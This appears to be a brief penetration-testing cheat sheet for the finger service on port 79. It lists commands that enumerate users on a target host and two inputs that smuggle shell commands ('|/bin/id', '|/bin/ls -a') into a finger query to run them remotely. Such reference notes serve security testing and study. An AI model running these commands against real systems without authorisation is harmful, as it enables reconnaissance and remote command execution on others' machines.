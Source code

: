 # FINGER - 79

### User enumeration <a href="#user-enumeration" id="user-enumeration"></a>

```bash
finger @<IP>
finger <USER>@<IP>
```

### Command execution <a href="#command-execution" id="command-execution"></a>

```bash
finger "|/bin/id@<IP>"
finger "|/bin/ls -a /<IP>"
```
